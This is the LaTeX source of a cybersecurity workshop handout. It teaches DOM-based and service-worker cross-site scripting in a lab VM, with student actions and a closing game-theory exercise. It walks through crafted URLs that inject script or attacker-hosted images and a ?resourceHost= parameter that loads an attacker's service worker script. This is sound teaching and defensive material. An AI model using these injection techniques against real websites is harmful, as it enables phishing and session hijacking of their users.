%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% HYPERRIDE Reporting Template
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[letterpaper,12pt]{report}
\usepackage[pass]{geometry}
\usepackage{istgame}
\usepackage{xcolor}
\usepackage{xurl}
\usepackage{hyperride}		% HYPERRIDE specific definitions and styles  
\usepackage[utf8]{inputenc}	% UTF8 package
\usepackage[T1]{fontenc}
\usepackage{textcomp}		% common special chars
\usepackage{amsmath}		% math formula
\usepackage{fancybox}
\usepackage{anyfontsize}	% fonts
\usepackage{lipsum}
\usepackage{float}
\usepackage[normalem]{ulem}
\usepackage{cleveref}
\usepackage[printonlyused]{acronym}
\hypersetup{
	pdftitle={Beacon Labs - Workshop},
	pdfauthor={[Dylan Gresham, Gaby Dagher, Jordan Whyte, Gunnar Vittrup, Josh Boyle]},
	pdfkeywords={Beacon Labs, Workshop, Cybersecurity, Middlebox, TCP Amplification, Network Security, Mobile Security, Web Security, Service Workers, XSS, Cross-Site Scripting, Android Vulnerability},
}
\usepackage{booktabs}
\usepackage{subfigure}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{soul}
\sethlcolor{lightgray}
\usepackage[export]{adjustbox}
\usepackage{mdframed}
\usepackage{pdfpages}
\usepackage{comment}
\usepackage{multirow,array}
\def\todo#1{{\color{hyperridered}\textbf{TODO:} ``#1''}}
\def\hyperride{HYPERRIDE}
\definecolor{lightblue}{rgb}{0.87, 0.94, 1}
\graphicspath{ {graphics/} }

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Definitions
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%% stuff for displaying code

% Define the listing package
\usepackage{listings} % code highlighter
\usepackage{color} % use color
\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}

% Customize a bit the look
\lstset{ %
  backgroundcolor=\color{white}, % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}
  basicstyle=\footnotesize, % the size of the fonts that are used for the code
  breakatwhitespace=false, % sets if automatic breaks should only happen at whitespace
  breaklines=true, % sets automatic line breaking
  captionpos=b, % sets the caption-position to bottom
  commentstyle=\color{mygreen}, % comment style
  deletekeywords={...}, % if you want to delete keywords from the given language
  escapeinside={\%*}{*)}, % if you want to add LaTeX within your code
  extendedchars=true, % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
  frame=tblr, % adds a frame around the code with line numbers inside the box
  keepspaces=true, % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
  keywordstyle=\color{blue}, % keyword style
  % language=Octave, % the language of the code
  morekeywords={*,...}, % if you want to add more keywords to the set
  numbers=left, % where to put the line-numbers; possible values are (none, left, right)
  numbersep=5pt, % how far the line-numbers are from the code
  numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
  rulecolor=\color{black}, % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
  showspaces=false, % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
  showstringspaces=false, % underline spaces within strings only
  showtabs=false, % show tabs within strings adding particular underscores
  stepnumber=1, % the step between two line-numbers. If it's 1, each line will be numbered
  stringstyle=\color{mymauve}, % string literal style
  tabsize=2, % sets default tabsize to 2 spaces
  title=\lstname % show the filename of files included with \lstinputlisting; also try caption instead of title
}
% END of listing package %

\definecolor{darkgray}{rgb}{.4,.4,.4}
\definecolor{purple}{rgb}{0.65, 0.12, 0.82}

% Define Javascript language
\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  keywordstyle=\color{blue}\bfseries,
  ndkeywords={class, export, boolean, throw, implements, import, this},
  ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}

\lstset{
  language=JavaScript,
  extendedchars=true,
  basicstyle=\footnotesize\ttfamily,
  showstringspaces=false,
  showspaces=false,
  numbers=left,
  numberstyle=\footnotesize,
  numbersep=9pt,
  tabsize=2,
  breaklines=true,
  showtabs=false,
  captionpos=b
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Definitions
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcounter{taskset}
\setcounter{taskset}{1} % Set the initial value of the taskset counter

\newcounter{action}[taskset]
\renewcommand{\theaction}{\thesection.\arabic{taskset}.\arabic{action}}

\newcommand{\myaction}[1]{%
  \refstepcounter{action}%
  \textbf{Action \theaction: #1}%
}


% CHANGE %'s below to make subsection headings visible/invisible in TOC
%\newcommand{\xsubsubsection}[1]{\subsection{#1}}
%\newcommand{\xsubsubsection}[1]{\subsubsection{#1}}

\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{5}

\begin{document}


\includepdf[pages=1]{./graphics/2FP.pdf}

\mdfdefinestyle{code}{%
    linecolor=black,
    outerlinewidth=2pt,
    %roundcorner=20pt,
    innertopmargin=4pt,
    innerbottommargin=4pt,
    innerrightmargin=4pt,
    innerleftmargin=4pt,
    leftmargin = 4pt,
    rightmargin = 4pt
    backgroundcolor=black!10
}

\setcounter{tocdepth}{4}
\setcounter{secnumdepth}{4}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% URL style same as regular text
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
	
\urlstyle{same}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Deliverable Information
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Project Meta Information
\ProjectFullTitle{Beacon Network Security Labs: Middlebox Amplification Attack Activity}
\ProjectAcronym{HYPERRIDE}
\ProjectRefNo{957788}

% Report Number, use either "1", "2", or "3" for the corresponding reporting period
\delivNumber{0}

% Period covered by the report
\delivFrom{dd/mm/yyyy}
\delivTo{dd/mm/yyyy}

% Report Responsible Partner
\delivResponsible{AIT Austrian Institute of Technology (AIT)} 

% Report Version, Contractual and Actual Date, Dissemination Level, Type
\delivVersion{vn.n}
\ContractualDate{dd/mm/yyyy}
\ActualDate{dd/mm/yyyy}

% List of Main Authors (usually from the responsible partner)
\delivAuthor{[Jordan Whyte, Gaby Dagher]}

% List of Co-Authors (all other co-authors should be listed here)
\delivFPAuthor{[]}

% Report Status
\delivStatus{d} %% d = draft, f = final, s = submitted

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Change Log
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\istChange{dd/mm/yyyy}{v1.0}{Name (Partner short name)}{Draft report template}
\istChange{}{}{}{}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Cover Page
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%\makecover

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Table of Contents
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\clearpage
\fancypagestyle{plain}{}
\settableofcontents
\tableofcontents
\clearpage

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Overview
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newpage

\section*{Overview}\label{sec:work-carried-out-2}
\addcontentsline{toc}{section}{Overview}

In this workshop, students will explore various attack strategies and vulnerabilities, focusing on network, mobile, and web threats. The hands-on activities will cover:

\begin{itemize}
    \item \textbf{Reflection-Based Attacks:} Understanding five types of TCP-based reflection attacks and how they differ from traditional UDP-based ancestors.
    \item \textbf{Mobile Security Exploits:} Examining vulnerabilities within the Android API, including weaknesses in the Android Activity Lifecycle, and implementing a deceptive overlay attack to gain unauthorized access to financial transactions.
    \item \textbf{Cross-Site Scripting (XSS) and Service Worker Exploits:} Learning about Service Worker Cross-Site Scripting (SW-XSS) attacks, how they escalate traditional XSS threats, and simple strategies to mitigate them.
\end{itemize}

By the end of this workshop, participants will be able to analyze, implement, and defend against various cyber threats, gaining practical insights into modern attack vectors and security countermeasures.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Setup
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section*{Setup}\label{sec:Setup}
\addcontentsline{toc}{section}{Setup}

Refer to the distributed setup instruction manual.

\section*{Web Security: Service Worker Cross-Site Scripting Attack}
\addcontentsline{toc}{section}{Web Security: Service Worker Cross-Site Scripting Attack}

\subsection*{Overview}\label{sec:work-carried-out}
\addcontentsline{toc}{subsection}{Overview}

In this activity, you will learn about the Service Worker Cross-Site Scripting (SW-XSS) attack and how to defend against it.

Cross-site scripting attacks (XSS) are among the most common but dangerous web attacks. Their threat level is increased witha piece of software called service workers. Hackers can control these powerful pieces of code and utilize them to access sensitive information.

This activity will build upon the research paper \emph{Security Study of Service Worker Cross-Site Scripting} by Phakpoom Chinprutthiwong, Guangliang Yang, Raj Vardhan, and Guofei Gu $^{\text{[\citeauthor{paper}]}}$, covering vulnerabilities and strategies to guard service workers. Reading the original paper is not necessary, but it can help if you would like to learn more about this attack and its defense.

\subsubsection*{Objectives}

After completing this activity you should be able to understand a Cross Site Scripting hack, how it works, and how to defend against it, understand sources and sinks, and be able to implement Cross Site Scripting and Service Worker Cross Site Scripting attacks. 

You will also have learned about service workers and how they elevate the danger of Cross Site Scripting attacks.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Activity Task 1
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection*{Task Set 1: DOM-XSS}\label{sec:Task 1: DOMXSS}
\addcontentsline{toc}{subsection}{Task Set 1: DOM-XSS}

Before we go in-depth into the emerging SW-XSS attack, we need to discuss the Document Object Model Cross Site Scripting (DOM-XSS) attack because SW-XSS is an extension of a DOM-XSS attack. This section will cover what a DOM-XSS attack is, how to defend against it, and how to implement it. Let's dive into this foundational attack.

\subsubsection*{Task 1.1: Explaining DOM-XSS}
\addcontentsline{toc}{subsubsection}{Task 1.1: Explaining DOM-XSS}

The DOM-XSS is one of 3 types of XSS attacks. It is a client-side, specialized injection attack that allows attackers to inject scripts into web pages. XSS are malicious attacks and enable hackers to perform the following actions: data theft, phishing attacks, session stealing, and defacement.

Two things make a DOM-XSS attack possible. First is Cross Origin Reference Sharing (CORS), an http-header technology declared in the server which permits origin declaration. It allows a server admin to declare what type of traffic is allowed on their hosted sites. Certain CORS permissions will block all web traffic, meaning you can't host images from other sites. Others will allow all imports, which hackers take advantage of when implementing their XSS attacks.

The second thing that makes this attack possible is a lack of URL sanitation i.e., web developer forgets to escape the characters between the source and the sink. This terminology may be confusing, so let's break it down. Source and sinks refer to the place where data originates (source) and the place where it is utilized (sink). Simply put, the web developer must use a special function when getting data from forms and URL headers so it is shown as plain text instead of JavaScript code. An example of such a function would be the \texttt{htmlspecialchars} function in PHP. This function takes any text in a text HTML form and turns its JavaScript-like code into a special character like \&lt before the code enters a special function such as \texttt{document.write()} or \texttt{element.innerHTML()}. Say an attacker entered the string "<script>alert("hi");</script>" into a form. The text would be sanitized and become "\&lt;script\&gt;alert(\&quot;hi\&quot;);\&lt;/script\&gt;" which will not be recognized as valid JavaScript by the browser and therefore not rendered to the user.

\bigskip

Now that you have a basic overview of the theory let's jump into the activity to see this attack in action.
Entering the URL \url{https://swxss.com/dom-example.html#context=Mary} inside the VM should take us to a web page that greets us with "Main Dashboard for Mary" as seen in \textbf{\textit{Figure~\ref{fig:DOM-XSS Dashboard}}}.

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/DOM-XSS-DashBoard.png}
    \caption{DOM-XSS webpage}
    \label{fig:DOM-XSS Dashboard}
\end{figure}

Right-clicking and clicking on inspect will give us the HTML. Look closely at how the dashboard greeting depends on the document.write. Additionally, observe how the JavaScript code uses the sub-string after "context=". It seems this dashboard script fulfills the requirements for a DOM-XSS attack.

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/hacked-small.png}
    \caption{Vulnerable alert message}
    \label{fig:hacked-alert}
\end{figure}

To test this assumption, replace the URL's context with the HTML snippet \texttt{<script>...</script>}. Insert the \texttt{alert()} function in between the two script tags with some message of your choosing and don't forget to add a semicolon to ensure that the browser stops trying to read JavaScript after the alert function.

If this site is vulnerable, then an alert box will pop up like in Figure~\ref{fig:hacked-alert}.
This means the website is vulnerable to a DOM-XSS attack.


\begin{mdframed}[backgroundcolor=blue!10,style=code,nobreak=true,align=center,userdefinedwidth=14cm]
\textbf{Action}

1.1.1 - Start your VM following the setup document and use the password "swxss" to login. Open the Firefox web browser and click on the bookmark "DOM-XSS." After clicking inspect and reading the code, determine what is the source and what is the sink.\\
1.1.2 - Craft a URL with the JavaScript alert function to test for a DOM-XSS attack. The attacker's domain is \url{https://www.attacker.com}. Your URL should be in the form:

\url{https//.../dom-example.html#context=<script>...</script>}
\end{mdframed}

\subsubsection*{Task 1.2: Implementing DOM-XSS}
\addcontentsline{toc}{subsubsection}{Task 1.2: Implementing DOM-XSS}

Now, let's see how this vulnerability can be abused.

The bulk of a Cross-Site Scripting attack is that scripts from an attacking server, (which can be modified at any time), can be imported on a vulnerable site and run in its payload. To demonstrate, we will attack the vulnerable site using an image from our attack server.

Instead of using the script tag, use an \texttt{<img>} HTML tag to insert one of the images hosted on the attacking server named "attack1" and "attack2". Make sure to use the full URL path \url{https://www.attacker.com}; otherwise, the DNS mappings between the two VMs will not work, and a 404 error will appear.

If the URL is crafted correctly an image should appear after the page is reloaded like in Figure~\ref{fig:Dom-XSS-results}. 

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/Dom-XSS-result.png}
    \caption{Vulnerable alert message}
    \label{fig:Dom-XSS-results}
\end{figure}

Hackers commonly send these crafted URLs to different people or post them in chats. People seeing the trusted URL will click on the link, not knowing they are going to a website under the hacker's control.

\bigskip
\begin{mdframed}[backgroundcolor=blue!10,style=code,nobreak=true,align=center,userdefinedwidth=14cm]
\textbf{Action}

1.2.1 - Craft a new URL using an \texttt{<img>} tag and an image hosted on the site \url{https://www.attacker.com}.
\end{mdframed}

Now let's see what happens if a developer properly sanitizes user input. Navigate to the bookmark titled "Sanitized." Perform the same steps as in Action 1.1.2 and observe that no alert appears and the JavaScript that was used in the URL becomes a garbled mess.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Task 2 SW-XSS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection*{Task Set 2: Using Service Workers for Cross-Site Scripting}\label{sec:Task 3: Using Service Workers for Cross-Site Scripting}
\addcontentsline{toc}{subsection}{Task Set 2: Using Service Workers for Cross-Site Scripting}

In this section, we will discuss the activity's main focus, the SW-XSS attack. We will cover what a service worker is, the service worker life cycle, the service worker's source and sinks, and how to execute an SW-XSS attack.

A basic understanding of service workers is crucial to completing this activity because they are attack vectors for the SW-XSS attack. To be ethical hackers and/or security minded developers, we need to play the role of attackers. So donning the attacker thinking cap, let’s look at service workers through the eyes of an attacker.

\subsubsection*{Task 2.1: Service Worker Overview}
\addcontentsline{toc}{subsubsection}{Service Worker Overview}

First, what are service workers? Service workers are web workers that are JavaScript files running in a separate thread on the browser. Service workers are a subclass of web workers with powerful capabilities such as network traffic interception, persistence across sessions, and instant push notifications. 

What is important to know for this activity is that service workers have a life cycle where they are registered, installed, activated, and finally destroyed. Knowledge of this life cycle is pivotal in implementing the SW-XSS attack, as an attacker needs to place an event listener during the installation phase. Once installed, the service worker denies any further additions to the service worker function file essentially locking it from outside changes.

\subsubsection*{Service Worker Lifecycle}
\addcontentsline{toc}{subsubsection}{Service Worker Lifecycle}

Let’s get a general idea of what each step does before diving into the code.

\paragraph*{Registration}
\addcontentsline{toc}{paragraph}{Registration}

During registration, the service worker calls the \texttt{navigation.service\\Worker.register} API. This API requires the service worker's file path and optionally determines its control scope. The register API is the critical point in the SW attack, occurring only once. Failure to import the modified service worker script before the registration means the attack will not work! 

\paragraph*{Installation}
\addcontentsline{toc}{paragraph}{Installation}

If the hacked service worker file is imported, the website uses an install event listener to execute actions during installation. Otherwise, it will use its benign service worker file and execute the intended actions.

\paragraph*{Activation}
\addcontentsline{toc}{paragraph}{Activation}

Finally, activation occurs, and the service worker goes live, handling all programmed events. It remains active until it finally goes idle, whether it's due to the user stopping it or the worker finishing its task, and pauses all tasks until it's activated again.

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/lifecycle-function-interface.png}
    \caption{Lifecycle Event Outline}
    \label{fig:lifecycle-event-shell}
\end{figure}

\bigskip
These events occur in a service worker file usually titled \texttt{sw\_fn.js}. Each event is implemented in the form seen in Figure~\ref{fig:lifecycle-event-shell}. `EVENT' is replaced by the respective event. For instance, the Activation phase would be in the form of the service worker script, the activation event is handled with the following code:

\begin{figure}[H]
    \begin{lstlisting}[language=JavaScript]
self.addEventListener('activate', evt => {
    /* additional code here */
});
    \end{lstlisting}
    \caption{Activation Event Example}
    \label{fig:activate-example}
\end{figure}


 The API takes care of the complexities of the service worker life-cycle, so the developer can focus on implementing caches in the function or use the function "self.skipWaiting()" and "Clients.claim()" to have the service worker take effect without reloading the page. 

\bigskip

\bigskip
\begin{mdframed}[backgroundcolor=blue!10,style=code,nobreak=true,align=center,userdefinedwidth=14cm]
\textbf{Action}

2.1.1 - What are the three steps in a service worker's life cycle and how do they impact the execution of the SW-XSS attack?
\end{mdframed}

\subsubsection*{Explaining SW-XSS}
\addcontentsline{toc}{subsubsection}{Explaining SW-XSS}

After reviewing this section, we can identify attacking actions, particularly focusing on the critical phase of installation. Exploiting this phase before service worker installation allows us to manipulate event listeners and gain control over the service worker.

\paragraph*{Overview}
\addcontentsline{toc}{paragraph}{Overview}

SW-XSS represents an emerging Cross-Site Scripting attack that leverages service worker's capabilities. The attack strategy follows the source and sink approach, similar to DOM-XSS attacks, but utilizes different sink functions: \texttt{importScripts}, \texttt{function}, \texttt{eval}, \texttt{setTimeout}, and \texttt{setInterval}. This activity demonstrates an attack leveraging the \texttt{importScripts} function. This function imports external JavaScript into the current file and uses CORS to fetch scripts from other websites.

The name "SW-XSS" derives from obtaining a pervasive script from an external website controlled by the attackers. This script is then utilized to command the service worker.

\paragraph*{SW-XSS Sinks}
\addcontentsline{toc}{paragraph}{SW-XSS Sinks}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/new figure 6.png}
    \caption{HTML with vulnerability}
    \label{fig:simplified_html}
\end{figure}

Let's go through an example of what vulnerable code looks like. In Figure~\ref{fig:simplified_html}, you can see an example of some JavaScript from an HTML file that will start the service worker life cycle. The code starts with the event handler "load". This means that when the page is loaded, the function is executed and will use the service worker API to register a file called "sw.js." Additionally, the URL parameters will be passed into this file with \texttt{location.search}. For a more concrete example, if the URL was \url{http://example.com/index.php?foo=bar}, the result of the \texttt{location.search} would be "foo=bar". Including the URL parameter is important because the service worker needs to identify a service worker to like a cookie or session is done in the normal browser and server context. We have to do it in this unorthodox way because there is no direct way to communicate with service workers. 

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/new figure 7.png}
    \caption{Service Worker file with Vulnerability}
    \label{fig:vuln_service_worker_file}
\end{figure}

Passing URL parameters to service workers is fine if the information is validated and sanitized. But in Figure~\ref{fig:vuln_service_worker_file}, we can see the file the URL parameters are passed to. The parameters passed to the service worker are never sanitized and are directly passed into the sensitive function \texttt{importScripts}. This function does exactly as it sounds: it imports and executes a JavaScript file. This function is the \textit{sink}, which is never validated or sanitized. This is extremely dangerous as it enables attackers to import their own scripts instead of the service worker's original script.

The intended function would be for the user to log in, so the URL parameter would be  \texttt{?username=Mary}. This info would then be passed into the sw.js function, so a script would be \texttt{Mary/sw\_fn.js}. But since this info is never validated, hackers can craft a URL like \url{https://www.example.com/?resourceHost=https://www.hackerexample.com}. This crafted URL will import the service worker file from the hacker's server instead of the intended one on the victim's URL. The hacker's service worker file will be loaded instead, and the hacker will have full control of the service worker. Anyone unlucky enough to click on the hacker's URL will be subject to the hacker's many attacks. 

\subsubsection*{Task 2.3: Implementing SW-XSS}
\addcontentsline{toc}{subsubsection}{Task 2.3: Implementing SW-XSS}

In the next sections, we will take our knowledge of DOM-XSS and service workers and implement our own SW-XSS attack. To assist you, we created an accompanying video demonstrating debugging processes. You can find this video on this activity's webpage.

\paragraph*{Crafting the URL}
\addcontentsline{toc}{paragraph}{Crafting the URL}

Start by right-clicking on the page and selecting "Inspect" to open the developer tools. This should take you to the page as seen in Figure~\ref{fig:insepct}. Navigate to the console tab to view the JavaScript output and access the debugger tab to gain insights into the JavaScript of the domain \url{www.swxss.com}, focusing on service worker-related messages.

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/inspect.png}
    \caption{Inspect Page}
    \label{fig:insepct}
\end{figure}

Open a new tab and access debugging to inspect the service worker context. Click on the service worker section, specifically examining the `sw.js' code to observe the absence of URL parameter sanitization before executing the import scripts function.

Similar to the previous DOM-XSS attack, explore the site's vulnerability by creating a script in the directory \texttt{/var/www/html} using sudo. Create a new file with \texttt{console.log("SW-XSS test!!!");} as its content and the file name being \texttt{sw\_fn.js}, renaming the original \texttt{sw\_fn.js} to an alternate name temporarily.

Craft a new URL using \texttt{?resourceHost=} to cross-reference the created file: \texttt{sw\_fn.js} hosted on the attacker's VM.

Check for the message inserted into \texttt{sw\_fn.js} within the service worker context by removing the old service worker, reloading the page, and registering a new service worker. Return to the debugger to verify the appearance of the console message from \texttt{sw\_fn.js}.

If the message appears as expected, the webpage might be vulnerable to a SW-XSS attack.

\paragraph*{Reloading Service Workers}
\addcontentsline{toc}{paragraph}{Reloading Service Workers}

This section is covered in an optional video on the page where you downloaded the VM files.

Since service workers are persistent across different sessions, a service worker must be deleted to view the new changes. After every edit to the service worker file, you must delete the old service worker and reload the page. Otherwise, the old service worker will persist, and your changes will not appear. To remove the old service worker and load the new one, open a new tab and select the bookmark tab titled “Debugging - Runtime.” Alternatively, go to the URL \url{about:debugging#/runtime/this-firefox}. This page will list the different web workers your browser currently has loaded.  

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/VirtualBoxVM_0buFAcyNnH.png}
    \caption{SW Debugging Dashboard}
    \label{fig:sw-debugging-dashboard}
\end{figure}

Scroll to the service worker section as seen in Figure~\ref{fig:sw-debugging-dashboard} and click the "Unregister" button. This will remove the service worker from your browser, allowing you to load the new one. Next, return to the SW-XSS page and click reload. This will restart the service worker life-cycle using your modified \texttt{sw\_fn.js} file. Follow this process each time you modify your service worker file.

\begin{mdframed}[backgroundcolor=blue!10,style=code,nobreak=true,align=center,userdefinedwidth=14cm]
\textbf{Action}

2.3.1 - Open a new Firefox tab to the "SW-XSS" bookmark. Inspect the web page, click the Application tab, click start on the \texttt{sw.js} service worker, then click the \texttt{sw.js} file name once it's blue. 

Alternatively, open a new tab, select the "Debugging - Runtime ..." bookmark, start the service worker associated with \\ "https://www.swxss.com/sw.js", click Inspect, open the Debugger tab, expand www.swxss.com on the left menu under Sources, and open the \texttt{sw.js} file.

What is the source and sink?\\
2.3.2 - Open a new terminal and create a new file at \path{/var/www/html/sw_fn.js} with the touch command as the super user (sudo). Insert a personalized console message with a \texttt{console.log} function call.

Remove the old service worker and reload the SW-XSS page. Navigate back to the debugging page and observe the console output.
\end{mdframed}

\paragraph*{Implement Event Handlers}
\addcontentsline{toc}{paragraph}{Implement Event Handlers}

The final step involves gaining control of the service worker to manipulate the DOM, enabling potential malicious actions. With minimal JavaScript and knowledge of service workers, this can become a potent attack encompassing a DOM-XSS's capabilities, additional features like push notifications, and control over HTTP headers. Perfect for phishing attacks.

Opening the \texttt{sw\_fn.js} file in an editor such as `vi' or `nano' will reveal various functions as seen in Figure~\ref{fig:unfinished sw-fn.js}.

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/new figure 10.png}
    \caption{Unfinished sw\_fn.js}
    \label{fig:unfinished sw-fn.js}
\end{figure}

Lines 1 - 11 are event handlers. You'll need to replace the comments and implement the installation and activation functions as seen in Figure~\ref{fig:unfinished sw-fn.js}'s lines 3 - 5 and 9 - 11.

Because the service worker does not communicate directly with the main window, we must devise a new approach to modify the DOM. That is, we have to make a custom HTTP request. As discussed earlier, changing HTTP requests is one thing the service worker specializes in so, we design a fetch handler to listen to a fetch event.

It may be unclear what a fetch event is. A fetch handler refers to an HTTP request made to the server. Anytime the client requests information from the server, a fetch event occurs. This information might include HTML for webpages, hosted images, style sheets, and anything else a client needs to display the page.

We have the fetch event on Figure~\ref{fig:unfinished sw-fn.js}'s line 13. This detects fetch events however, this means it detects \textit{all} fetch events and runs the function \\multiple times. To filter out many unnecessary fetch requests, we have an if condition that only activates when the fetch request is from our modified URL on Figure~\ref{fig:unfinished sw-fn.js}'s line 14. Lines 14 - 16 will make the custom HTTP request. It takes the \texttt{text} function from line 17, clones the HTML code, and then uses the \texttt{replace} function on line 20 to replace certain sections of the HTML code with our code. The replace function has two parameters: the code already in the HTML and the code you want to insert. The remaining lines, 22 - 31, take the modified HTML code, finish making the HTTP response, and return it to the client.

Now that you have a general understanding of the code, the next action is to finish the \texttt{text.replace()} function shown in Figure~\ref{fig:unfinished sw-fn.js} on line 20. It might be helpful to right-click on the page and inspect the existing HTML to find a tag you want to replace. Then, use an "img" tag from the last section's action as the second parameter.

\bigskip
\begin{mdframed}[backgroundcolor=blue!10,style=code,nobreak=true,align=center,userdefinedwidth=14cm]
\textbf{Action}

2.3.3 - In the file \texttt{sw\_fn.js}, edit the functions to add the install, activate, and fetch handlers. Add a \texttt{console.log} to each function and observe the log output.\\
2.3.4 - In the same file, edit the fetch handler function to replace an HTML element on the SW-XSS page like we did in the DOM-XSS section.
\end{mdframed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\columnwidth]{graphics/swxss-result.png}
    \caption{Correct SW-XSS Results}
    \label{fig:correct-swxss}
\end{figure}

If the action above was performed correctly, you should have an image like Figure~\ref{fig:correct-swxss}. Don't worry about getting the exact position or tag. If you can get this image on the page, it is correct. 

With this, you have successfully completed a SW-XSS attack. Pat yourself on the back and think of what you've learned before jumping into the next section.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Game Theory
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection*{Task Set 3: Game Theory}\label{sec:GameTheory}
\addcontentsline{toc}{subsection}{Task Set 3: Game Theory}

In the following section, we will model a malicious entity attacking a website for a SW-XSS attack and the web developer protecting against it. We will use a signaling game model, and then calculate the expected utility to determine what each player’s best actions are.

\subsubsection*{Game Theory Assumptions}
\addcontentsline{toc}{subsubsection}{Game Theory Assumptions}

The Game Theory model that best fits this situation is a signaling game. The developer plays as p1 and the attacker plays as p2. For simplicity’s sake, we assume that the website has a service worker installed, and both the developer and the hacker have a choice between two actions.

The developer can either sanitize the URL parameters entering the service worker, or ``forget” and not sanitize the URL parameters. The attacker’s choices are between attacking and moving on to a different website (ignoring).

Additionally, there can be either an experienced or an inexperienced developer. The hacker prefers an inexperienced developer because even if the inexperienced developer sanitizes the service worker, they're more likely to leave another vulnerability on the site. The hacker can then attack the other vulnerabilities (this option is labeled as "different" on the game tree). The experienced developer, on the other hand, will sanitize everything on the website if they sanitize and only leave this one vulnerability if they forget to sanitize. Nature deals with experienced and inexperienced developers at a rate of 47\% and 53\% respectively. Based on a statistic they read from StackOverflow, the attacker’s beliefs about the developers coincide with nature.

\subsubsection*{Task 3.1: Game Theory Payoffs}
\addcontentsline{toc}{subsubsection}{Task 3.1: Game Theory Payoffs}

An experienced developer shown on the left side of the tree can either sanitize or forget and the attacker will make their choice. If they forget, they will be punished in both cases the attacker makes because this is the worst scenario for a developer. If they sanitize they get a small payoff because they did their job and the attacker can choose to either ignore for 0 or lose some points attacking. The attacker loses points because it is a waste of time to attack a website they know the developer already protected.

The inexperienced developer has a similar outcome but, there is a less severe punishment for forgetting because it is expected for inexperienced developers to make mistakes. However, even if they do sanitize, they make other, less severe, mistakes on the website which the attacker can look for so, the attacker receives a small utility point even if the inexperienced developer did their job.

\subsubsection*{Strategies}
\addcontentsline{toc}{subsubsection}{Strategies}

With the conditions listed, the players develop the following strategies and beliefs:

\begin{itemize}
    \item Developer Strategy:
    \begin{itemize}
        \item Both types of developers choose to sanitize their code.
    \end{itemize}
    \item Hacker Strategy:
    \begin{itemize}
        \item Attack if the developer fails to sanitize.
        \item Ignore when an experienced developer sanitizes
        \item Try a different attack when an inexperienced developer sanitizes the service worker.
    \end{itemize}
    \item Hacker's Belief:
    \begin{itemize}
        \item Probability of encountering an experienced developer: 47\%
        \item Probability of encountering an inexperienced developer: 53\%
    \end{itemize}
\end{itemize}

\bigskip
\begin{mdframed}[backgroundcolor=blue!10,style=code,nobreak=true,align=center,userdefinedwidth=14cm]
\textbf{Action}
\bigskip

3.1.1 - Calculate the hacker's expected utility for this game.\\
3.1.2 - What does the expected utility tell about the hacker's decision?\\
3.1.3 - Calculate the expected utility for p2 if p1 chooses the forget option.\\
3.1.4 - Does this game have an equilibrium? Explain your reasoning.
\end{mdframed}

